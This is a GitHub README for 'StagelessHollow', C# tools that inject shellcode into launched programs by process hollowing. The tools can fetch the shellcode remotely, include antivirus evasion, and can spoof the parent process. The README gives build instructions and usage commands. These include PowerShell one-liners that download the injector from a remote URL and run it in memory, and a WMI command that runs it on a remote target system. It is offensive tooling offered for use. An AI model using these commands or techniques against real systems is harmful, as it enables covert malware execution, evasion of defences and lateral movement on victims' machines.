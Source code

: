 # StagelessHollow
Multiple C# based tools that perform the Process Hollowing injection technique, can hold- or remotely fetch base64 encoded shellcode, doesn't require any arguments to operate and have some additional AV heuristic bypass techniques baked in. Furthermore, the ParentProcessInjection tool performs the parent spoofing technique to further obfuscate its presence. 

### Prepare & compile tool:
<b>ParentHollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio.
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Specify the path to a program location that will be launched and used to inject the shellcode into.
- 4. Specify the name of an already running process (e.g. explorer) which will serve as the parent process (parent process spoofing).
- 5. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

<b>HollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Either specify the path to a program location that will be launched and used to inject the shellcode into OR specify the path as an argument during execution of the tool (check usage below). 
- 4. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

### Usage examples:
<b>ParentHollowInjection:</b>

Load ParentHollowInjector.exe from remote location and execute in memory using PowerShell:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/ParentHollowInjector.exe")); [ParentHollowInjector.Program]::Main(@(""))
```
After uploading ParentHollowInjector.exe to a target system, execute it remotely from disk:
```
Invoke-WmiMethod –ComputerName <FQDN target system> -Class win32_process -Name create -ArgumentList "C:\Windows\Temp\ParentHollowInjection.exe"
```

<b>HollowInjection:</b>

Run tool from disk with optional argument to specify the program that is used to inject the shellcode into:
```
C:\Windows\Temp\HollowInjection.exe [/program:C:\<path to program.exe>]
```
Load tool from remote location and execute in memory with argument specified:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/HollowInjector.exe")); [HollowInjector.Program]::Main(@("/program:C:\Windows\System32\notepad.exe"))
```

### Credit & References:
The code in this project is <b>heavily</b> based on the [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection) project which is based on the Process Hollowing code from [Aaron Bray](https://github.com/ambray) and [Rasta Mouse](https://github.com/rasta-mouse). 




